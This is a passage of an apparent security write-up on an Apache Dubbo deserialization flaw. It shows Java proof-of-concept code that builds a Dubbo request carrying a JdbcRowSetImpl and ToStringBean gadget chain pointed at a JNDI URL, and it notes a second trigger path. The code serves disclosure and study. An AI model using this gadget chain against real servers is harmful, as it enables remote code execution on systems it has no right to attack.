 <div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="nc">JdbcRowSetImpl</span> <span class="n">impl</span> <span class="o">=</span> <span class="k">new</span> <span class="nc">JdbcRowSetImpl</span><span class="o">();</span>
<span class="n">impl</span><span class="o">.</span><span class="na">setDataSourceName</span><span class="o">(</span><span class="no">JNDI_URL</span><span class="o">);</span>
<span class="n">impl</span><span class="o">.</span><span class="na">setMatchColumn</span><span class="o">(</span><span class="s">"foo"</span><span class="o">);</span>
<span class="nc">ToStringBean</span> <span class="n">toStringBean</span> <span class="o">=</span> <span class="k">new</span> <span class="nc">ToStringBean</span><span class="o">(</span><span class="nc">JdbcRowSetImpl</span><span class="o">.</span><span class="na">class</span><span class="o">,</span> <span class="n">impl</span><span class="o">);</span>

<span class="c1">// 1.dubboVersion</span>
<span class="n">out</span><span class="o">.</span><span class="na">writeString</span><span class="o">(</span><span class="s">"2.7.8"</span><span class="o">);</span>
<span class="c1">// 2.path</span>
<span class="n">out</span><span class="o">.</span><span class="na">writeString</span><span class="o">(</span><span class="s">"foo"</span><span class="o">);</span>
<span class="c1">// 3.version</span>
<span class="n">out</span><span class="o">.</span><span class="na">writeString</span><span class="o">(</span><span class="s">""</span><span class="o">);</span>
<span class="c1">// 4.methodName</span>
<span class="n">out</span><span class="o">.</span><span class="na">writeString</span><span class="o">(</span><span class="s">"$echo"</span><span class="o">);</span>
<span class="c1">// 5.methodDesc</span>
<span class="n">out</span><span class="o">.</span><span class="na">writeString</span><span class="o">(</span><span class="s">"Ljava/lang/Object;"</span><span class="o">);</span>
<span class="c1">// 6.paramsObject</span>
<span class="n">out</span><span class="o">.</span><span class="na">writeObject</span><span class="o">(</span><span class="s">"foo"</span><span class="o">);</span>
<span class="c1">// 7.map</span>
<span class="nc">HashMap</span> <span class="n">attachments</span> <span class="o">=</span> <span class="k">new</span> <span class="nc">HashMap</span><span class="o">();</span>
<span class="n">attachments</span><span class="o">.</span><span class="na">put</span><span class="o">(</span><span class="s">"pwn"</span><span class="o">,</span> <span class="n">toStringBean</span><span class="o">);</span>
<span class="n">out</span><span class="o">.</span><span class="na">writeObject</span><span class="o">(</span><span class="n">attachments</span><span class="o">);</span>
</code></pre></div></div>

<p>Additionally we can reach a <a href="https://github.com/apache/dubbo/blob/master/dubbo-rpc/dubbo-rpc-dubbo/src/main/java/org/apache/dubbo/rpc/protocol/dubbo/DubboProtocol.java#L140">different <code class="language-plaintext highlighter-rouge">toString</code> call</a> which requires us to add an additional attachment to exercise the <a href="https://github.com/apache/dubbo/blob/master/dubbo-rpc/dubbo-rpc-dubbo/src/main/java/org/apache/dubbo/rpc/protocol/dubbo/DubboProtocol.java#L122"><code class="language-plaintext highlighter-rouge">IS_CALLBACK_SERVICE_INVOKE</code></a> branch:</p>

<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="nc">JdbcRowSetImpl</span> <span class="n">impl</span> <span class="o">=</span> <span class="k">new</span> <span class="nc">JdbcRowSetImpl</span><span class="o">();</span>
<span class="n">impl</span><span class="o">.</span><span class="na">setDataSourceName</span><span class="o">(</span><span class="no">JNDI_URL</span><span class="o">);</span>
<span class="n">impl</span><span class="o">.</span><span class="na">setMatchColumn</span><span class="o">(</span><span class="s">"foo"</span><span class="o">);</span>
<span class="nc">ToStringBean</span> <span class="n">toStringBean</span> <span class="o">=</span> <span class="k">new</span> <span class="nc">ToStringBean</span><span class="o">(</span><span class="nc">JdbcRowSetImpl</span><span class="o">.</span><span class="na">class</span><span class="o">,</span> <span class="n">impl</span><span class="o">);</span>
